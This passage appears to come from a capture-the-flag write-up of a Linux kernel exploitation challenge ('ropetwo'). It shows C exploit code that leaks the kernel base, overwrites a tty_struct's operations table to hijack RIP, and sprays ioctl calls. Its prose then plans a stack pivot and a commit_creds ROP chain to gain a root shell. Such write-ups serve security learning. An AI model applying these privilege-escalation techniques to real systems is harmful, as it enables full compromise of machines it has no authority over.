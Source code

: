 ```C

  printf("[*] Leak                :   %p\n", buf[131]);

  if (buf[131] & 0xfff != 0x6a0)
  {
    printf("[!] Error, exploit failed.\n");
    exit(-1);
  }
  printf("[*] Base                :   %p\n", kbase);
  printf("[*] Gadget              :   %p\n", kbase + 0xb55c7);
  commit_creds = kbase + commit_creds;
  init_creds = kbase + init_creds;
  pop_rdi = kbase + 0x8b8a0;      // pop rdi; ret
  kpti = kbase + 0xc00a34;       // swapgs_restore_regs_and_return_to_usermode
  printf("[*] init_creds:   %p\n", init_creds);
  printf("[*] commit_creds        :   %p\n", commit_creds);
  printf("[*] get_shell            :   %p\n", &get_shell);
  printf("[!] DEBUG....:");
  getchar();
  fake_tty_operations[12] = 0xdeadbeef;
  buf[131] = &fake_tty_operations;

  fill(fd, 0, 0x420, &buf);
  for(int i=0; i<0x100; i++)
  {
    ioctl(spray_fd[i], 0, 0);
  }
  return 0;
}
```

Doing the above, we get the RIP overwritten as `0xdeadbeef`.

![](/img/ropetwo/deadbeef.png)

Now, moving on, we will have to somehow execute the ROP chain which will be `commit_creds(init_creds())`, and call a function which will spawn shell. As for my initial research, I found out that we can use a gadget like `xchg eax, esp` and `mmap` a memory region with the lower 32 bit address of the gadget and store our ROP chain to it, which once the RIP hits the gadget, would exchange the `eax` and `esp` would execute instructions from the `mmap`'d region. To do this, I change the 12th index of the `fake_tty_operations` to the address of the `xchg eax, esp` gadget and set a breakpoint at the address within gdb:

> The gadget was found with the help of ROPGadget and is from the `.text` section because of r/w permissions. `

```C
  fake_tty_operations[12] = kbase + 0x4cba4;
  buf[131] = &fake_tty_operations;

  fill(fd, 0, 0x420, &buf);
  for(int i=0; i<0x100; i++)
```
